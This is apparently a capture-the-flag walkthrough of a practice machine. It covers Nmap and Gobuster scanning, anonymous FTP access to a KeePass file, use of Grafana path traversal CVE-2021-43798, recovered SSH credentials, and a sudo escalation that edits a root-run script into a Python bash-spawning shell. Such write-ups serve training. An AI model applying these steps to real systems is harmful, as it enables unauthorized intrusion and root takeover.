










# Move

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 64
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```


We see that anonymous FTP service is allowed and there's a directory called "maintenance" that we can access.
We found a file "database.kdbx". After downloading it, we see it's a file that can be accessed using the KeePass tool.

.

Similarly, I scanned the SSH port, but didn't find anything important.

Lastly, I scanned port 3000 and we see it has a login web page, which we'll review later.


## Examining the Web Page and Its Infrastructure

If we examine the web on port 80, there's nothing relevant; it's a default Apache page.

We'll perform a scan of the web page looking for hidden directories or files. For this, I'll use the Gobuster tool.

```ruby
gobuster dir -u http://172.17.0.2 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt
```




If we look at what the login contains, we notice the following:


It's a Grafana identification panel, we see that the version is v8.3.0.

## Intrusion
Searching in the searchexploit tool, we find an exploit with the same version. If we also do a basic search in the browser, we'll find a repository with this exploit.

It's the exploit CVE-2021-43798

https://github.com/FAOG99/GrafanaDirectoryScanner

Following the steps of the application, we get the following result:



We've found a traversal file that contains a possible password for the KeePass program. If we try it in the application... we access successfully.



We've found a user:

```ruby
user: freddy
pwd: t9sH76gpQ82UFeZ3GXZS
```

Finally, we try these credentials in the SSH service... we access correctly.


## Escalation privilege
If we run the sudo -l command, we find the following:


We see that we can execute that script as root user.
If we execute it, it simply shows us a "server under maintenance" message. Therefore, if we edit this file
and make a Python3 script that executes a terminal for us, we can access as root user. For this, I've made this basic script:

```python
import os
import subprocess

def local_shell():
    shell = "/bin/bash"  
    
    try:
       
        subprocess.call([shell, '-i'])
    except Exception as e:
        print(f"Error al iniciar la shell: {e}")

if __name__ == "__main__":
    local_shell()

```
Lastly, if we execute this script with sudo, we'll get a terminal with root user.


